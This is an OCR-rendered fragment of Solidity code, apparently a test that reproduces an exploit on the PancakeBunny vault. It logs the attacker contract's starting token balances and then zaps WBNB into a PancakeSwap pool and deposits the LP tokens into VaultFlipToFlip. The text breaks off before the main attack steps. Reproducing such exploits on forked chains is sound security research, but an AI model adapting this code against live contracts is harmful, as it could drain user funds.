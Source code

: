 │             IERC20(WBNB).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "Initial USDT balance of attacker:",                                                                                                                                                                                                      │
│             IERC20(USDT).balanceOf(address(this)),                                                                                                                                                                                                    │
│             IERC20(USDT).decimals()                                                                                                                                                                                                                   │
│         );                                                                                                                                                                                                                                            │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                  │
│             "Initial BUNNY balance of attacker:",                                                                                                                                                                                                     │
│             IERC20(BUNNY).balanceOf(address(this)),                                                                                                                                                                                                   │
│             IERC20(BUNNY).decimals()                                                                                                                                                                                                                  │
│         );                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                       │
│         // Deposit a minimum amount of WBNB + USDT to VaultFlipToFlip, transfer LP tokens to WBNB + USDT Pancake pool.                                                                                                                                │
│         emit log_string("Zapping 1 WBNB into WBNB+USDT v2 pool...");                                                                                                                                                                                  │
│                                                                                                                                                                                                                                                       │
│         zap.zapInToken(WBNB, 1e18, address(WBNBUSDTv2));                                                                                                                                                                                              │
│         uint256 lpamount = IERC20(address(WBNBUSDTv2)).balanceOf(address(this));                                                                                                                                                                      │
│         flip.deposit(lpamount);                                                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                       │
│         emit log_string(                                                                                                                                                                                                                              │